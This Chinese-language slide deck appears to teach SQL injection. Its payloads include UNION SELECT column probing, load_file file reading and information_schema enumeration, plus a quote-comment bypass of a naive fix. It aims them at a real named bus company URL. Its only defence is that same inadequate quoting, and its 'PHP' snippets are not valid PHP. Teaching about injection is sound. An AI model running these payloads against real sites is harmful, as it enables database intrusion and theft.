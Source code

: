 <h1><span class="fragment highlight-current-red">SQL</span> <span class="fragment highlight-current-red">Injection</span></h1>

note: 結構化查詢語言（en:Structured Query Language，縮寫為SQL），一種程式語言，用於資料庫中的標準資料查詢語言，IBM公司最早使用在其開發的資料庫系統中。1986年10月，美國國家標準學會（ANSI）對SQL進行規範後，以此作為關聯式資料庫管理系統的標準語言（ANSI X3. 135-1986），1987年得到國際標準組織的支援下成為國際標準。不過各種通行的資料庫系統在其實踐過程中都對SQL規範作了某些編改和擴充。所以，實際上不同資料庫系統之間的SQL不能完全相互通用。

SQL攻擊（SQL injection，中國大陸稱作SQL注入攻擊，港澳稱作），簡稱隱碼攻擊，是發生於應用程式之資料庫層的安全漏洞。簡而言之，是在輸入的字串之中夾帶SQL指令，在設計不良的程式當中忽略了檢查，那麼這些夾帶進去的指令就會被資料庫伺服器誤認為是正常的SQL指令而執行，因此遭到破壞。
有部份人認為SQL隱碼攻擊是只針對Microsoft SQL Server而來，但只要是支援批次處理SQL指令的資料庫伺服器，都有可能受到此種手法的攻擊。


#### SELECT name FROM users WHERE id = '123';

![](img/blind.jpg)

[1 分鐘了解關聯式資料庫](https://docs.google.com/spreadsheets/d/1Oc2nrT9yFGGuB4ZaoIwTva1OMZCuEASGKdNIN2nXU3k/edit?usp=sharing) <!-- .element: class="fragment" -->

note: 用 ukik 當例子，要示範到 where


http://www.tpebus.com.tw/newsfile/shownews.php?newsno=596
note: 看到這段網址不知道各位有什麼感覺？毫無反應，就只是個網址。你可能會想說這就是一個網址而已，後面那個 596 應該是某篇文章的 ID 吧。


# 駭客想的不一樣


http://www.tpebus.com.tw/newsfile/shownews.php?<span class="fragment highlight-red">newsno=596</span>

SQL <!-- .element: class="fragment" -->
```sql
SELECT * FROM news WHERE id='596';
```
<!-- .element: class="fragment" -->

PHP <!-- .element: class="fragment" -->
```php
sql_string = "SELECT * FROM news WHERE id=596;"
```
<!-- .element: class="fragment" -->

```php
sql_string = "SELECT * FROM news WHERE id=" + "596" + ";"
```
<!-- .element: class="fragment" -->

```php
sql_string = "SELECT * FROM news WHERE id=" + newsno + ";"
```
<!-- .element: class="fragment" -->

---

# 攻
## UNION SELECT


```sql
mysql> SELECT id,email,name FROM users WHERE id=1;
+----+-------------------+------------+
| id | email             | name       |
+----+-------------------+------------+
|  1 | kcheart@gmail.com | Kevin Chen |
+----+-------------------+------------+
```

```sql
mysql> SELECT id,email,name FROM users WHERE id=1 UNION ALL SELECT 'a','b','c';
+----+-------------------+------------+
| id | email             | name       |
+----+-------------------+------------+
| 1  | kcheart@gmail.com | Kevin Chen |
| a  | b                 | c          |
+----+-------------------+------------+
```
<!-- .element: class="fragment" -->

```sql
mysql> SELECT id,email,name FROM users WHERE id=-1 UNION ALL SELECT 'a','b','c';
+----+-------+------+
| id | email | name |
+----+-------+------+
| a  | b     | c    |
+----+-------+------+
```
<!-- .element: class="fragment" -->

note: UNION 操作符用於合併兩個或多個 SELECT 語句的結果集。
請注意，UNION 內部的 SELECT 語句必須擁有相同數量的列。列也必須擁有相似的數據類型。同時，每條 SELECT 語句中的列的順序必須相同。

通常一個 select 會伴隨一個結果，而 UNION 可以加油添醋。


http://www.tpebus.com.tw/newsfile/shownews.php?newsno=596

```sql
SELECT * FROM news WHERE id='596';
```
<!-- .element: class="fragment" -->

```php
sql_string = "SELECT * FROM news WHERE id=" + newsno + ";"
```
<!-- .element: class="fragment" -->

<span class="fragment">http://www.tpebus.com.tw/newsfile/shownews.php?newsno=<span class="fragment highlight-red">596%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14</span></span>

```sql
SELECT * FROM news WHERE id=596 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14;
```
<!-- .element: class="fragment" -->

---

# 然後勒？
note: 其實這樣很空虛啊，我們來玩點有趣的


## MySQL functions

* version() - 回傳資料庫版本
* database() - 取得當前資料庫
* load_file('/etc/xxx') - 讀檔 <!-- .element: class="fragment highlight-red" -->
* concat('aaa', 'bbb', version(), 'ccc') - 連接字串

```sql
SELECT * FROM news WHERE id=596 UNION SELECT 1,2,version(),4,5,6,7,8,9,10,11,12,13,14;
```
<!-- .element: class="fragment" -->
note: 現場示範


# 找出 Schema


```sql
SELECT table_schema,table_name,column_name FROM information_schema.columns;
```

note: 要有個概念，一台電腦只能安裝一個 mysql，一個 mysql 可以有很多 database，一個 database 有很多 table，一個 table 有很多 column。

在 mysql 裡面有一個特別的 database

    UNION SELECT 1,2,concat(table_name,0x2e,column_name),4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_schema='linelist1' LIMIT 1 OFFSET 0


# 找出 Data


```sql
SELECT column_name FROM table_name;
```

---

# 防
### 程式安全


修改前
```php
sql_string = "SELECT * FROM news WHERE id=" + newsno + ";"
```

修改後 <!-- .element: class="fragment" -->
```php
sql_string = "SELECT * FROM news WHERE id='" + newsno + "';"
```
<!-- .element: class="fragment" -->

SQL <!-- .element: class="fragment" -->
```SQL
SELECT * FROM news WHERE id='-596 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14';
```
<!-- .element: class="fragment" -->

---

# 攻
### 填空遊戲


-596 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 <!-- .element: class="fragment" -->

```SQL
SELECT * FROM news WHERE id='-596 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14';
```
<!-- .element: class="fragment" -->

' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 /* <!-- .element: class="fragment" -->

```SQL
SELECT * FROM news WHERE id='' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 /*';
```
<!-- .element: class="fragment" -->

![](img/rage.png) <!-- .element: class="fragment" -->

---

# 結論
# 無論攻防 <!-- .element: class="fragment" -->
## 程式能力的考驗 <!-- .element: class="fragment" -->

---

# Q & A
### 想發問請舉手